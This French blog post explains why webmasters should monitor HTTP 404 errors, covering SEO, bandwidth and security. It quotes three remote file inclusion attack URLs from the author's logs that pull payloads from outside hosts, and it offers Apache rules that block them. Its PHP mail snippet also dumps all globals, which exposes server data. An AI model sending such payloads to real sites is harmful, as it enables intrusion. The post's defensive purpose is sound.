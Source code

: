 ```yaml
---
title:      Surveillez vos erreurs 404, elles peuvent être très instructives
lang:       fr
tags:       ["404", SEO, security, WebPerf]
---
```


A l’heure où tout le monde ne jure que par l’optimisation du référencement — on dit Search Engine Optimization, ou SEO, pour faire branché — afin d’augmenter son trafic, et ainsi ses clients potentiels et/ou son revenu publicitaire, qui se soucie de vérifier ce qui se passe pour les internautes qui arrivent bien sur le site, mais sur une page qui n’existe pas, indiquée comme il se doit par une erreur HTTP 404[^erreur] ?

[^erreur]: Oui, c’est la règle, mais certains ne la respectent pas, bien entendu…

Si vous ne vous en souciez pas, commencez tout de suite à le faire, il y a beaucoup à apprendre, et sans doute beaucoup d’améliorations à apporter à votre site.

Le moyen le plus simple de connaître les URL en erreur 404 sur lesquelles arrivent les internautes, c’est d’abord de s’intéresser à celles qui sont référencées dans les moteurs de recherche, dont Google. On peut trouver justement un référencement des pages en erreur, dont celles en 404, au sein des [outils Google pour les webmasters](https://www.google.com/webmasters/tools/).

{% respimg "google-webmasters-404.png", "Erreurs 404 de Gastero Prod référencées par Google" %}

Une autre méthode plus basique et source potentielle d’explosion de compte mail est de se faire envoyer un mail à chaque requête donnant une erreur. C’est ce que j’ai fait dans mon squelette `404.html` pour Gastero Prod, en donnant au passage quelques informations utiles de contexte d’appel :

```php
<?php
mail('adresse@example.com',
  '[GP404] '.$_SERVER['REQUEST_URI'],
  '#URL_SITE_SPIP'.$_SERVER['REQUEST_URI']."\r\n".'User agent: '.$_SERVER['HTTP_USER_AGENT']."\r\n".'Referer: '.$_SERVER['HTTP_REFERER']."\r\n".print_r($GLOBALS, true),
  'From: adresse@example.com');
}
?>
```

Identifier les erreurs 404 permet d’améliorer un site sur plusieurs sujets :

# La qualité du référencement

Si un internaute arrive sur votre site depuis un moteur de recherche, et tombe sur une erreur 404, c’est qu’il y a un soucis dans votre référencement, sans doute parce que votre site ou un autre site contient des liens qui pointent vers ces mauvaises URL, liens qui existent :

- soit par simple erreur de frappe, ce qu’un bon [outil de gestion de contenus Web](http://www.clever-age.com/veille/clever-link/les-outils-de-gestion-de-contenu.html) devrait permettre d’éviter,
- soit parce que vous avez modifié vos URL, ce qu’il ne faut surtout [pas faire](http://www.w3.org/Provider/Style/URI) !,
- soit parce que des URL déterminées et gérées automatiquement sont mal configurées.

En observant les erreurs 404 relevées par Google, j’ai pu corriger de nombreux problèmes apparus sur Gastero Prod, notamment avec le petit changement opéré sur les URL[^url] pour que les articles du blog ne soient plus à la racine mais dans une sous rubrique blog/ et surtout un mélange entre URL absolues et URL relative, pas encore totalement bien gérées dans SPIP avec des URL arborescentes.

[^url]: Oui, je sais, c’est mal, mais j’ai mis des redirections permanentes au moins, moi ! ;-)

Il n’y a bien entendu pas que le nettoyage des erreurs 404 qui permet d’améliorer la qualité du référencement, mais c’est un autre sujet…

# Les performances, la consommation de bande passante, et donc potentiellement le coût de l’hébergement

Si vous faites en sorte de diminuer les erreurs 404 sur votre site, quelles qu’en soit les causes, les internautes ne téléchargeront que les pages réellement intéressantes, et vous réduirez le gaspillage de ressources de votre serveur, ainsi que la bande passante consommée.

Selon la nature de votre hébergement, cela peut avoir un impact — positif à priori — sur son coût, ce qui peut s’avérer intéressant comme motivation.

# La sécurité

Vous pouvez aussi identifier, dans les erreurs 404, des attaques essayant de profiter de failles de sécurité de solutions packagées.

Par exemple, un requête revenant ces derniers temps dans mes logs de 404 est la suivante :

```
http://www.gasteroprod.com/infoevent.php3?rootagenda=http://love-ma2.t35.com/sistem.txt?
```

En cherchant `infoevent.php3` sur Google, j’ai découvert qu’il s’agit d’un script faisant justement l’objet d’[une faille de sécurité de phpMyAgenda](http://www.securityfocus.com/bid/29164).

Comme par hasard, le client ayant fait cette requête n’est pas un navigateur traditionnel, mais s’identifie comme étant `libwww-perl/5.803`. C’est donc bien un programme qui tente l’attaque, sauf falsification de signature qui serait ici inepte.

Autre exemple avec cette requête :

```
http://www.gasteroprod.com//tags.php?BBCodeFile=http://guhit.com/img/id.txt?
```

Requête qui correspond à [une faille de sécurité de Tagger LE](http://www.securityfocus.com/bid/19464), et qui est demandée comme par hasard aussi par un client `libwww-perl/5.812` !

Dernier exemple avec cette requête :

```
http://www.gasteroprod.com//chat/users_popupL.php3?From=http://www.covoiturage.fr/communities/arab.txt??
```

Requête qui correspond à [une faille de sécurité de phpMyChat](http://osvdb.org/39224)[^pmc], et qui est demandée comme par hasard une fois de plus par un client `libwww-perl/5.805` !

[^pmc]: Oups oups oups ! :-(

Je tiens à signaler aux hackers qui me liraient que je n’utilise aucune de ces applications, ni aucune des nombreuses autres auxquelles s’adressent les autres attaques que je subi…

Faudrait-il donc refuser systématiquement toute requête signée par `libwww-perl` ?

En tout cas, vous pouvez déjà refuser les requêtes clairement identifiables comme des attaques brutales, par exemple comme ceci si vous avez le module `mod_rewrite` pour Apache :

```apache
# Bloquer certaines attaques brutales pas fines
# http://www.securityfocus.com/bid/19464
RewriteCond %{QUERY_STRING} &?BBCodeFile=([^&]+)
RewriteRule tags\.php - [F,L]
# http://www.securityfocus.com/bid/29164
RewriteCond %{QUERY_STRING} &?rootagenda=([^&]+)
RewriteRule infoevent\.php3 - [F,L]
# http://osvdb.org/39224
RewriteCond %{QUERY_STRING} &?From=([^&]+)
RewriteRule users_popupL\.php3 - [F,L]
```

Voilà, vous êtes prévenus, n’ignorez plus vos erreurs 404, agissez !
